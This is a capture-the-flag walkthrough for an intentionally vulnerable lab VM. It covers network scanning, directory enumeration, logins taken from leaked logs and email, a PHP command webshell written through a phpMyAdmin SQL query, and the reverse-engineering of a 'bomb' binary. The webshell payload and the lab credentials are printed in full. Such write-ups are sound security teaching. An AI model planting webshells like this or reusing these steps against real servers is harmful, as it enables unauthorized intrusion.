



# First Breach

## Find the machine's IP

When started, the machine asks us for a login, showing nothing but this prompt. Using the **Host Network Manager** from VirtualBox we can setup a local network between all virtual machines and the host one. By doing so, we get an IP that will be later referenced as `<IP>`.

To create an **Host only adapter network**, first we go File > Host Network Manager and it opens a pop-up. All we have to do now is clicking on the "Create" button to generate a new network. We get the following:



> In our case, the host network is called `vboxnet0` with `192.168.56.1` as IP address.

Then, we select the Boot to Root machine and go to Machine > Settings > Network to set the new network. We put `Attached to` to `Host only Adapter` and we select the option `vboxnet0` for the `name` as follow:



## Analyze local network

Now all we have to do is to scan the network with [nmap](https://nmap.org/).

```shell
  $> nmap <IP>/24
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-23 12:26 CET
  Nmap scan report for <IP>
  Host is up (0.00033s latency).
  Not shown: 999 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh

  Nmap scan report for <NETWORK-IP1>
  Host is up (0.00037s latency).
  All 1000 scanned ports on 192.168.56.100 are in ignored states.
  Not shown: 1000 closed tcp ports (conn-refused)

  Nmap scan report for <NETWORK-IP2>
  Host is up (0.0012s latency).
  Not shown: 994 filtered tcp ports (no-response)
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 256 IP addresses (3 hosts up) scanned in 12.90 seconds
```

> `/24` tells to nmap to scan the range of adresses that fit this mask. In our case from `192.168.56.0` to `192.168.56.255`.

## Website discovery

Thanks to **nmap**, we can see that three machines are running in the same network, one on which we can connect with ssh and another with a bunch of open ports. We'll focus on that one since port `80` and `443` are open on it meaning there is a **website bound to the machine that we can access via HTTP / HTTPS requests**.

Using [curl](https://curl.se/), we can look at this website...

```HTML
  $> curl https://<NETWORK-IP2>

  <!DOCTYPE html>
  <html>
    <head>
      <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
      <title>Hack me if you can</title>
      <meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
      <meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>
      <link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
      <link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>
    </head>
    <body>
      <div id="wrapper">
        <h1>Hack me</h1>
        <h2>We're Coming Soon</h2>
        <p>We're wetting our shirts to launch the website.<br />
        In the mean time, you can connect with us trought</p>
        <p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
      </div>
    </body>
  </html>
```

> It clearly tell us `Hack me if you can`. So we are on the right path.

Trying a random endpoint gives us useful information...

```HTML
  $> curl https://<NETWORK-IP2>/test
  <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
  <html>
    <head>
      <title>404 Not Found</title>
    </head>
    <body>
      <h1>Not Found</h1>
      <p>The requested URL /test was not found on this server.</p>
      <hr>
      <address>Apache/2.2.22 (Ubuntu) Server at <NETWORK-IP2> Port 80</address>
    </body>
  </html>
```

So we know that this website is powered by Apache, some known vulnerabilities could be tried, we'll probably come back to that later on. For now on, we could try a powerful tool called [dirb](https://www.kali.org/tools/dirb/#:~:text=DIRB%20is%20a%20Web%20Content,can%20use%20your%20custom%20wordlists.) we could try to identify existing endpoints for this website.

```shell
  $> dirb https://<NETWORK-IP2> -rSwN 403

  -----------------
  DIRB v2.22    
  By The Dark Raver
  -----------------

  START_TIME: Sun Jan 23 18:06:57 2022
  URL_BASE: <NETWORK-IP2>
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  OPTION: Ignoring NOT_FOUND code -> 403
  OPTION: Not Recursive
  OPTION: Silent Mode
  OPTION: Not Stopping on warning messages

  -----------------

  GENERATED WORDS: 4612

  ---- Scanning URL: <NETWORK-IP2> ----
  ==> DIRECTORY: <NETWORK-IP2>/forum/
  ==> DIRECTORY: <NETWORK-IP2>/phpmyadmin/
  ==> DIRECTORY: <NETWORK-IP2>/webmail/

  -----------------
  END_TIME: Sun Jan 23 18:07:07 2022
  DOWNLOADED: 4612 - FOUND: 0
```

> flags `-rSw` tell dirb to silently test every combinations in the used dictionary, not doing any recursion and not stopping analysis of an endpoint on a warning. `-N` discard any endpoint that respond with a particular [HTTP Code](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes), here 403 meaning **Forbidden**.

Thanks to this scan, we can see that three services are available to us, a forum, phpmyadmin and a mail service...

## Forum analysis

On the forum's main page, we have some information at our disposal. At the top right corner a **Log in** and **Contact** buttons and some posts we can read. Only `Probleme login ?` by `lmezard` seems to be interesting to go through. It look like a kind of logs.

```
...
Oct 5 08:44:59 BornToSecHackMe sshd[7490]: Failed password for root from 161.202.39.38 port 55193 ssh2
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
Oct 5 13:31:19 BornToSecHackMe sshd[20199]: reverse mapping checking getaddrinfo for ppp-253-14.20-151.wind.it [151.20.14.253] failed - POSSIBLE BREAK-IN ATTEMPT!
...
Oct 5 14:54:00 BornToSecHackMe sshd[23804]: Accepted password for admin from 62.210.32.157 port 61495 ssh2
...
Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh
...
Oct 5 14:57:56 BornToSecHackMe sudo: root : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/usr/sbin/service vsftpd restart
...
```

> This log was truncated with `...` for not really interesting parts... As we can see there are useful log that we could use to find some vulnerabilities later on.

We can see that someone most likely swapped his username with its password (`!q\]Ej?*5K5cy*AJ`). Since the logs tell us that user `lmezard` succesfully logged himself 30 seconds after, we can assume that it was his password. If we click on the **Log in** button and try these credentials we indeed access this account.

# Webmail analysis
Now that we are logged on the forum we can access her profile and we can retrieve its email which is as depicted bellow, `laurie@borntosec.net`.



If we try to log on the webmail service with the credentials pair `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` we can access her mailbox where we find an interesting mail.

```
Subject:    DB Access
From:       qudevide@mail.borntosec.net
Date:       Thu, October 8, 2015 10:25 pm
To:         laurie@borntosec.net
Priority:   Normal

---------

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
As you can see, this mail gives us administrator access to the databases with the credentials pair `root:Fg-'kKXBj87E:aJ$`.

## PHPMyAdmin and webshell exploit

Now that we have these credentials we can log as root in PHPmyAdmin. There is a known vulnerability with this service known as [Webshell upload](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/). To upload this shell to the website we need to find a place where we have rights to write files. So we are back to dirb... We'll look through the forum to find possibles directories.

```shell
 dirb https://<NETWORK-IP2>/forum -rSwN 403

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan 23 20:16:25 2022
URL_BASE: https://<NETWORK-IP2>/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://<NETWORK-IP2>/forum/ ----
==> DIRECTORY: https://<NETWORK-IP2>/forum/images/
==> DIRECTORY: https://<NETWORK-IP2>/forum/includes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/js/
==> DIRECTORY: https://<NETWORK-IP2>/forum/lang/
==> DIRECTORY: https://<NETWORK-IP2>/forum/modules/
==> DIRECTORY: https://<NETWORK-IP2>/forum/templates_c/
==> DIRECTORY: https://<NETWORK-IP2>/forum/themes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/update/

-----------------
END_TIME: Sun Jan 23 20:16:28 2022
DOWNLOADED: 4612 - FOUND: 2
```

Now that we have some potential candidates for our upload, let's try it. We head to the SQL tab and enter the following...

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

> We find that `/forum/templates_c` is the only folder where this can be written. This basically create an HTML page with a textbox. When you click on the **Submit** button the input is evaluated directly in the shell where the website is hosted.

We now have a shell in the working directory `/forum/templates_c`, we are logged as `www-data`. After listing a few directories, we find `/home/LOOKATME/password` that gives us the credentials pair `lmezard:G!@M6f4Eatau{sF"`. We can log into the vm directly, this doesn't work with ssh.

## lmezard
lmezard has two files in his home directory:
- README:
```
Complete this little challenge and use the result as password for user 'laurie' to login with ssh
```
- fun: tar file

After decompressing fun we have a directory `ft_fun` that has 750 files inside it.

One of those files is bigger and contains a c main and calls to getmeXX functions and a printf call telling us to 'digest' (md5) the password we'll find. Most functions have a `//fileXXX` that tells you where to look for findind the next letter. We did scripts to help us read. They basically concatenate the different files in the correct order. You can run `node lmezard.js`
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4 -
```
we can connect to laurie with ssh

## laurie
laurie has two files in her home directory:
- README:
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b
 
o
4

NO SPACE IN THE PASSWORD (password is case sensitive)
```
- bomb: binary file

We will use Hopper (a dissassembler) and gdb to get through all 6 phases.

The bomb consists of 6 phases we must pass by inputing the correct value.
Using Hopper we see that there are 6 functions named phaseX with X the phase number. There's also a secret_phase but we'll see that in the bonuses.
### phase 1
Hopper:
```
int phase_1(int arg0) {
    eax = strings_not_equal(arg0, "Public speaking is very easy.");
    if (eax != 0x0) {
            eax = explode_bomb();
    }
    return eax;
}
```
Checks if our input is `Public speaking is very easy.`

### phase 2
Using Hopper we can recreate the function
```
int phase2() {
    inputs = read_six_numbers(stdin); // int[6]
    if inputs.len() != 6
        explode_bomb();
    int factorials[6] = {1, 2, 3, 4, 5, 6}; // stored in the esi
    
    int i = 1;
    do {
        factorial = factorials[i - 1];
        factorials[i] *= factorials[i - 1];
        if (inputs[i] != factorial)
           explode_bomb();
    } while (i <= 5)
    return 0;
}
```
answer is the first 6 factorials so `1 2 6 24 120 720`

### phase 3
Using Hopper:
```
int phase3() {
    int rtn = scanf(stdin, "%d %c %d", &first_int, &my_char, &second_int);
    if rtn <= 2
        explode_bomb();
    if (first_int < 7)
        switch case (first_int)
            case 0:
                cmp_char = 'q';
                if (second_int != 777) {
                        eax = explode_bomb();
                }
                else {
                        if (cmp_char != my_char) {
                                eax = explode_bomb();
                        }
                }
                break;
            case 1:
                cmp_char = 'b';
                if (second_int != 214) {
                        explode_bomb();
                }
                else {
                        if (cmp_char != my_char) {
                                eax = explode_bomb();
                        }
                }
                break;
           // 6 more cases
    }
    else
        explode_bomb();
    return 0;
}
```
There are 7 possible answers, we take the first one with the hint given `b` so `1 b 214`

### phase 4
```
int func4(int fibo_index) {
    int fibo1;
    if (fibo_index > 1) {
            fibo1 = func4(ebx - 1);
            fibo2 = func4(ebx - 2);
            fibo1 = fibo1 + fibo2;
    }
    else {
            fibo1 = 0x1;
    }
    return fibo1;
}

int phase_4() {
    if ((sscanf(stdin, "%d", &fibo_index) == 1) && (fibo_index > 0)) {
            int fibo55 = func4(fibo_index);
            if (fibo555 != 55) {
                    eax = explode_bomb();
            }
    }
    else {
            explode_bomb();
    }
    return eax;
}
```
takes an int as input and returns the fibonacci number corresponding to that index. checks if it is 55, which is the 10th index. However their function doesn't go until [0, 1] for the starting numbers but [1, 1]. So we must input `9`.

### phase 5
```
void phase_5() {
    read_input(stdin, &str);
    if (strlen(str) != 6) {
        explode_bomb();
    }
    else {
            int i = 0;
            char *indexMe = "isrveawhobpnutfg";
            do {
                    str[i] = indexMe[str[i] & 0xf];
                    i++;
            } while (edx <= 5);
            if strcmp(str, "giants" != 0) {
                explode_bomb();
            }
    }
    return;
}
```
uses each character of the string we put in and does & 0xf with them which creates a number below 16 which is then used as index in "isrveawhobpnutfg". The newly constructed string must then be equal to giants. We did a quick script to get the possible options (phase5.py). There are four options, let's take `opekmq`.

### phase6
Hopper tells us that address 0x804b26c is called.
phase6 takes 6 ints, checks that they are <= 6 then tries to permutate data in the esi then checks if that data is in decreasing order
Hopper tells us that esi is set at address 0x804b26c.
```
laurie@BornToSecHackMe:~$ gdb -q bomb
Reading symbols from /home/laurie/bomb...done.
(gdb) b main
Breakpoint 1 at 0x80489b7: file bomb.c, line 36.
(gdb) r
Starting program: /home/laurie/bomb

Breakpoint 1, main (argc=1, argv=0xb7fd0ff4) at bomb.c:36
36	bomb.c: No such file or directory.
(gdb) x/20x 0x804b26c-0x40
0x804b22c <array>:	  0x67667475	0x000001b0	0x00000006	0x00000000
0x804b23c <node5>:	  0x000000d4	0x00000005	0x0804b230	0x000003e5
0x804b24c <node4+4>:	0x00000004	0x0804b23c	0x0000012d	0x00000003
0x804b25c <node3+8>:	0x0804b248	0x000002d5	0x00000002	0x0804b254
0x804b26c <node1>:	  0x000000fd	0x00000001	0x0804b260	0x000003e9
(gdb) x/20x 0x804b26c-0x42
0x804b22a <arra>:	    0x74756e70	0x01b06766	0x00060000	0x00000000
0x804b23a <node6+10>:	0x00d40000	0x00050000	0xb2300000	0x03e50804
0x804b24a <node4+2>:	0x00040000	0xb23c0000	0x012d0804	0x00030000
0x804b25a <node3+6>:	0xb2480000	0x02d50804	0x00020000	0xb2540000
0x804b26a <node2+10>:	0x00fd0804	0x00010000	0xb2600000	0x03e90804
```
We can see 6 nodes and their values. We can input their indexes with their values decreasing. That's the password `4 2 6 3 1 5`

We can finally concatenate all of the different phases:

However it doesn't work, we must inverse len - 1 and len - 2 characters for some reason (https://stackoverflow.com/c/42network/questions/664).

thor's password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
